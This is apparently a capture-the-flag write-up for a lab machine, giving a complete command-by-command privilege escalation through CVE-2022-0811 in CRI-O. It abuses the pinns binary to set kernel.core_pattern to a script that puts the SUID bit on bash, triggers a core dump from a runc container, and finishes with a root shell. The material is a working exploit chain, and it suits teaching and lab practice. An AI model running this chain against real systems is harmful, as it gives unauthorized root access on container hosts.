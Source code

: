 1) Upload linpeas.sh and run, found the following info:
```
-rwsr-x--- 1 root   ethan      796K Mar 15 18:18 /usr/bin/pinns (Unknown SUID binary)

[+] Checking if runc is available
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/runc-privilege-escalation
runc was found in /usr/sbin/runc, you may be able to escalate privileges with it
```
2) With some google search, this is found to be related to a recent vulnerability: [https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/)

-----------------

# Exploiting cve-2022-0811

1) Follow the steps **closely**, this is a confusing exploit
2) Note that there is no kubectl, minikube, docker etc involved in this exploit. You need to understand the concept of cve-2022-0811 and replicate using the underlying commands
3) Using pspy64, we can see that there are some scripts that keep deleting stuff in various folder. So i decided to do my exploit in /tmp/meow folder.
```
2022/08/31 05:28:01 CMD: UID=0    PID=53674  | sudo -u ethan rm -rf /home/ethan/*sh /home/ethan/.*sh /home/ethan/*/*.sh /home/ethan/*/*sh /home/ethan/.*/*sh /home/ethan/.*/.*sh
2022/08/31 05:28:01 CMD: UID=0    PID=53673  | /bin/sh /root/scripts/clean2.sh 
2022/08/31 05:28:01 CMD: UID=0    PID=53672  | /bin/sh -c /root/scripts/clean2.sh 
2022/08/31 05:28:01 CMD: UID=0    PID=53676  | /bin/bash /root/scripts/clean.sh 
2022/08/31 05:28:01 CMD: UID=0    PID=53679  | sudo -u steven rm -rf /home/steven/.notes/.*sh /home/steven/.notes/*sh 
2022/08/31 05:28:01 CMD: UID=1001 PID=53681  | rm -rf /home/steven/.notes/.*sh /home/steven/.notes/*sh 
2022/08/31 05:28:01 CMD: UID=0    PID=53682  | umount /home/ethan/utsns/* /home/ethan/ipcns/* /home/ethan/netns/* /home/ethan/cgroupns/* 
2022/08/31 05:28:01 CMD: UID=0    PID=53683  | umount /home/steven/utsns/* /home/steven/ipcns/* /home/steven/netns/* /home/steven/cgroupns/* 
2022/08/31 05:28:01 CMD: UID=0    PID=53685  | sudo -u ethan rm -rf /home/ethan/utsns /home/ethan/ipcns /home/ethan/netns /home/ethan/cgroupns 
2022/08/31 05:28:01 CMD: UID=1000 PID=53686  | 
2022/08/31 05:28:01 CMD: UID=0    PID=53687  | sudo -u steven rm -rf /home/steven/utsns /home/steven/ipcns /home/steven/netns /home/steven/cgroupns 
2022/08/31 05:28:01 CMD: UID=0    PID=53689  | sudo -u ethan rm /tmp/*.sh 
2022/08/31 05:28:01 CMD: UID=0    PID=53691  | /bin/sh /root/scripts/clean2.sh 
```
4) Open `two ssh sessions`

------------------------
# Step 1

1) In `session 1`, do the following:
```
ethan@vessel:~$ mkdir /tmp/meow && cd /tmp/meow
ethan@vessel:/tmp/meow$ runc spec --rootless
ethan@vessel:/tmp/meow$ mkdir rootfs
ethan@vessel:/tmp/meow$ vi config.json 

############# under mounts section, add the following content
{
    "type": "bind",
    "source": "/",
    "destination": "/",
    "options": [
        "rbind",
        "rw",
        "rprivate"
    ]
},
#############

ethan@vessel:/tmp/meow$ runc --root /tmp/meow run alpine
# you should be in the container now, but this is a read-only filesystem
```

# Step 2

2) In `session 2`, create a script that adds the `s` bit to `/usr/bin/bash`
```
ethan@vessel:~$ echo -e '#!/bin/sh\nchmod +s /usr/bin/bash' > /tmp/meow/e.sh && chmod +x /tmp/meow/e.sh
```

# Step 3

3) In `session 1`, check the script is created and is executable
```
# ls -ls /tmp/meow
total 16
4 drwx--x--x 2 root root 4096 Aug 31 10:49 alpine
4 -rw-rw-r-- 1 root root 2875 Aug 31 10:49 config.json
4 -rwxrwxr-x 1 root root   33 Aug 31 10:50 e.sh
4 drwxrwxr-x 5 root root 4096 Aug 31 10:48 rootfs
```

# Step 4

4) In `session 2`, use pinns to assign the kernel.core_pattern a value so that upon a core dump, it will execute the malicious script
```
ethan@vessel:~$ pinns -d /var/run -f 844aa3c8-2c60-4245-a7df-9e26768ff303 -s'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/meow/e.sh #' --ipc --net --uts --cgroup
```

# Step 5

5) In `session 1`, trigger a core dump
```
# ulimit -c unlimited
# tail -f /dev/null &
# ps
    PID TTY          TIME CMD
      1 pts/0    00:00:00 sh
     7 pts/0    00:00:00 tail
     11 pts/0    00:00:00 ps
# bash -i
bash: /root/.bashrc: Permission denied
root@runc:/# kill -SIGSEGV 7
root@runc:/# ps
    PID TTY          TIME CMD
      1 pts/0    00:00:00 sh
      9 pts/0    00:00:00 bash
     15 pts/0    00:00:00 ps
```

# Step 6

6) In `session 2`, check that the `s` bit has been assigned to `/usr/bin/bash`, and then promote to effective root

```
ethan@vessel:~$ ls -ls /usr/bin/bash
1160 -rwsr-sr-x 1 root root 1183448 Apr 18 09:14 /usr/bin/bash
ethan@vessel:~$ bash -p
bash-5.0# cd /root
bash-5.0# cat root.txt
```
